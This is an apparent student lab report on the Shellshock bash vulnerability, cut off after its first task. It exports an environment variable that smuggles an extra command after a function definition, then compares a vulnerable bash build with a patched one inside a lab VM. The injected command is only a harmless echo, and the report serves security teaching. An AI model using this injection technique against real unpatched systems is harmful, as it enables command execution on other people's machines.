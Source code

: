 ## Lab02
###### Lin Shi (n92s773)
###### linshi1768@gmail.com
###### CSCI 476
###### February 16, 2021
<br>

Before the tasks, I followed the environment setup and completed every comment and they all work on my machine; thus, I continued.
### Task 1:

#### Task 1.1:

This is a simple test to see if /bin/bash_shellshock is vulnerable to the Shellshock attack. We are defining the function foo; however, we have included some extra code after the declaration, **echo "attack";**. By having this in the quotation, if /bin/bash_shellshock print out attack, we will know it is vulnerable to Shellshock attack.
```
[02/15/21]seed@VM:~/.../image_www$ export PS1='parent:>'                                 
parent:>foo='() { echo "normal function"; }; echo "attack";'  
parent:>export foo
parent:>bash_shellshock
attack
[02/15/21]seed@VM:~/.../image_www$ declare -f foo
foo ()
{
    echo "normal function"
}
```

After testing /bin/bash_shellshock, I would like to verify it with /bin/bash, the one that suppose to be patched and not vulnerable.
```
[02/15/21]seed@VM:~/.../image_www$ export PS1='parent:>'
parent:>foo='() { echo "normal function"; }; echo "attack";'
parent:>export foo
parent:>/bin/bash
[02/15/21]seed@VM:~/.../image_www$ echo $foo
() { echo "normal function" }
```

Overall, I ran some basic commands with echo "string" after the declaration to prove the a bash's vulnerability. After running both the /bin/bash_shellshock and /bin/bash, we can verify that /bin/bash_shellshock is vulnerable to shellshock attack. Once we declared and export foo, when we call bash_shellshock, (I was located in the directory, so I did not need to navigate to it), it **printed attack**. On the other hand, when we called /bin/bash, nothing was printed. Thus, proving that it is not vulnerable.

### Task 2:

#### Task 2.1:
